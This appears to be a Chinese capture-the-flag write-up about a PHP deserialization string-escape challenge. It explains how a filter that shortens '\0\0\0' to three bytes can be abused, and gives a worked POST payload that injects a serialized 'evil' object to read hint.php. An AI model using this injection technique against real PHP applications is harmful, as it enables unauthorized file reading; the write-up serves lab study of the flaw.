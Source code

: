 ```php
function read(){
    global $tmp;
    $data = $tmp;
    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
    return $r;
}

$tmp = "test";
$username = $_POST['username'];
$password = $_POST['password'];

$a = serialize(new User($username, $password));
if(preg_match('/flag/is',$a))
    die("NoNoNo!");

unserialize(read(write($a)));

```

重点看到的是两个类，在evil类里$this->hint指向文件触发file\_get\_contents函数读取文件内容，然后提示有个hint.php，肯定要构造触发这个evil类来获得flag。查看接入点，是post进去username和password两个参数。  
然后触发的是User类，有read和write方法，明显是过滤器(fliter),经过处理后才进行序列化，这就是典型的字符串逃逸。

思路：  
1.判断是增长型还是缩短型。  
2.按照要求写出payload。  
3.按照不同类型的逃逸方法对payload字段进行字符逃逸。  
4.对其他进行绕过（如\_\_wakeup()函数)。（不是本节重点）

这里的write chr(0).’\*’.chr(0) 代表 `null*null` protected标志常常会出现，长度为3，而其本身难以查找，我们利用read函数，将\\0\\0\\0长度为6缩短为长度为3，也就是缩短型。每次逃逸三个字符。

利用脚本写出payload:

```php
O:4:"evil":1:{s:4:"hint";s:8:"hint.php";}
```

strlen()函数获取字符串长度为：

```php
41
```

这里是缩短型，通过username的缩短来屏蔽对password字符段的长度定义。  
就是要屏蔽：`";s:8:"password";s:41:"`…  
屏蔽长度为：`23`  
加上一个填充字符到24（能够被3整除），也就是一共缩短8组过滤字符。

那么payload（post传入）:

```php
"username":"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0",
"password":a";O:4:"evil":1:{s:4:"hint";s:8:"hint.php";},
```

password的第一个`"a"`就是填充字符。

